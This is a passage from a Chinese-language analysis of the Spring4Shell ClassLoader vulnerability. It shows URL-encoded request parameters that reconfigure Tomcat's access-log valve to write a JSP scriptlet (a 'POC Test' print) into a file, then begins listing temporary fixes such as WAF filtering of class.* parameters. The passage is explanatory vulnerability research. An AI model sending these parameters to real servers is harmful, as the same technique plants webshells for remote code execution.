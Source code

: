因此数据包定义为：`%{%}t`，这样就可以向 log 文件中写入 `%` 了。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=3<br>class.module.classLoader.resources.context.parent.pipeline.first.pattern=%3C%25%7B%25%7Dtout.println(%22POC%20Test%22)%3B%25%7B%25%7Dt%3E<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302203197.png-water_print](assets/1699408077-0b1957b0092b713e1426fa67cc358859.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302203197.png-water_print")

查看文件：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302202352.png-water_print](assets/1699408077-d4779e03c3ea8c3c7064439a725e0a69.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302202352.png-water_print")

## [](#3-%E4%B8%B4%E6%97%B6%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88)3 临时修复方案

-   WAF 中对参数中出现的 `class.*`， `Class.*`，`*.class.*`， `*.Class.*` 字符串的规则过滤
-   全局搜索 `@InitBinder` 注解，判断方法体内是否有 dataBinder.setDisallowedFields 方法， 如果有使用则在原来的黑名单中添加：
